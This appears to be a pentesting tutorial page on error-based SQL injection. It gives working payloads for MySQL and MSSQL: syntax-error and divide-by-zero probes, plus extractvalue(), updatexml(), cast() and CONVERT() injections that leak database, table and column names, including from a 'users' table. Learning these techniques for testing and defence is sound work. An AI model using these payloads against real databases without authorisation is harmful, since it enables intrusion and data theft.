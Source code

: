 Error-Based SQL Injection is a technique where attackers intentionally cause database errors to reveal information. When an error message is returned in the server response, it can leak sensitive details about the database structure or content.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---


## 1. Basic Error-Based Injection

To test for SQL injection, you can deliberately introduce syntax errors or divide by zero:

```
' OR 1=1 -- (basic test)
' AND 1=CONVERT(int, 'text') -- (type conversion error)
' AND 1/0 -- (division by zero)
```

If the server returns an SQL error message, it confirms vulnerability.

---

## 2. Leveraging Error Messages to Extract Data

Databases like MySQL, MSSQL, and Oracle leak useful information through error messages. Attackers can abuse this behavior to reveal database details.

### MySQL Example (Using extractvalue()):

```
' AND extractvalue(1, concat(0x3a, (SELECT database()))) --
```

This query returns the current database name as part of an XML parsing error.

### MSSQL Example (Using cast()):

```
' AND 1=cast((SELECT TOP 1 table_name FROM information_schema.tables) AS int) --
```

The server returns an error showing the first table name from the database.

---

## 3. Useful Functions for Error-Based SQLi

|**Database**|**Function**|**Usage**|
|---|---|---|
|MySQL|`extractvalue()`|Leaks data in XML parsing errors|
|MySQL|`updatexml()`|Similar to `extractvalue()`|
|MSSQL|`convert()` / `cast()`|Converts data types to trigger errors|
|Oracle|`to_number()`|Converts string to number, causing errors if invalid|

Example for extracting current database in MSSQL:

```
' AND 1=CONVERT(int, (SELECT DB_NAME())) --
```

---

## 4. Extracting Sensitive Data via Errors

Once you know the technique works, you can refine your queries to leak more precise information.

You can find a vast collection of useful SQL injection payloads to use in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md). Here you have some examples:

- **Current database name:**
```
' AND (SELECT database()) -- (MySQL)
```

- **First table name:**
```
' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables)) -- (MSSQL)
```

- **First column name in a specific table:**

```
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1)), null) -- (MySQL)
```